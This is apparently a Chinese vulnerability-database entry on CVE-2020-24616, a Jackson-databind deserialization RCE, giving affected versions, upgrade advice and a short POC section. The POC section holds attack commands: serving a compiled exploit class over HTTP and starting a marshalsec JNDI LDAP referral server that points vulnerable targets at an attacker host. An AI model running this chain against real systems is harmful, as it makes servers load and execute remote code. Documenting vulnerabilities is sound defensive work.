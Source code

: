 ```yaml
---
title: 'Jackson反序列化远程代码执行 CVE-2020-24616'
date: Sat, 19 Sep 2020 07:49:40 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

FasterXML Jackson发布了新的高危漏洞（漏洞编号：CVE-2020-24616），其官方团队发布了 jackson-databind 的新版本 2.9.10.6，其中修复了几个反序列化漏洞。 FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10.6之前的版本中存在安全漏洞，该漏洞源于不安全的反序列化。远程攻击者可通过精心构造的恶意载荷利用该漏洞在系统执行任意代码。

#### 影响版本

jackson-databind < 2.9.10.6

#### 安全版本

jackson-databind 2.9.10.6 jackson-databind 2.10

#### 漏洞修复

1.建议用户将jackson-databind组件升级到安全版本。 https://github.com/FasterXML/jackson-databind/releases 2.在Jackson 2.10 中引入了Safe Default Typing白名单机制，可杜绝此类gadget的影响。

#### POC

把编译好的exploit.class放置在服务端 开启HTTP服务```
python3 -m http.server 8888 
```或者tomcat都行 启动LDAP```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://x.x.x.x(服务端Ip):8888/#Exploit” 9999 

PS:poc中的端口号要和LDAP的对应 本地运行javaPOC ![](./Jackson反序列化远程代码执行 CVE-2020-24616/ttt-1.png) [cve-2020-24616-poc-master](./Jackson反序列化远程代码执行 CVE-2020-24616/cve-2020-24616-poc-master.zip)